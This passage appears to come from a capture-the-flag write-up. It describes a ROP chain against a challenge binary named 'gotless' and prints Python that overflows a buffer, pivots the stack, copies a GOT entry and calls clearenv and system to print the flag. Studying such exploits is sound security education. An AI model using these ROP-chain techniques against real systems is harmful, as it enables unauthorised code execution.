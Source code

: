 Solution 1) is by far the safest and most portable solution, since it assumes
nothing of the location of `environ` (even though we can probably assume it to
be statically located), and nothing about how far our into the env pointers our
ROP-chain has overflowed. However, the extra `libc` function call is going to
cost a lot of extra ROP-chain space due to it needing to be copied to the new
stack. 

In fact, I successfully implemented both solutions, and the *encoded* payloads
were 4656 and 3824 bytes long, respectively.

I decide to go with solution 1) for the sake of reasonability, but below snippet
shows how to implement solution 2):

```python
split   = 544 # found via manual brute-force search using gdb. lol
payload = payload[:split] + set_rdi_gadget(0) * 2 + payload[split:]
```

## The full ROP-chain

I finally have a working ROP-chain.

To summarize, the below snippet from `gotless/doit.py` shows the full ROP-chain
construction:

```python
new_stack_base = 0x405000 - 248 # change this offset accordingly.

# build "actual" ROP-chain, which does all of the work.
new_stack_contents = (

    # copy relocated addr of __libc_start_main to a writable location.
    qword_copy_chain(addr_GOT_original, addr_GOT_copy,
                     current_rsp = new_stack_base) +

    # call clearenv() to avoid execve crashing due to the ROP-chain having
    # overflowed the global `environ` variable; then carry on with the program.
    libc_caller.call_libc_chain("clearenv") +
    libc_caller.call_libc_chain("system", rdi = addr_cat_flag_str) +
    libc_caller.call_libc_chain("exit",   rdi = 66)
)

# build initial rop-chain, which simply migrates the "actual" rop-chain.
payload = (
    rand_bytes(288) + # 288 bytes of garbage to overflow the `hash` buffer.

    # write the new stack to writable memory.
    arbitrary_write_chain(new_stack_base, new_stack_contents) +

    # set rbx = address that will eventually hold our copy of the GOT entry.
    set_rbx_gadget(addr_GOT_copy) +

    # update stack pointer (we start at -8 to account for `pop r13`).
    set_rsp_gadget(new_stack_base - 8)
)

encoded_payload = ...
```
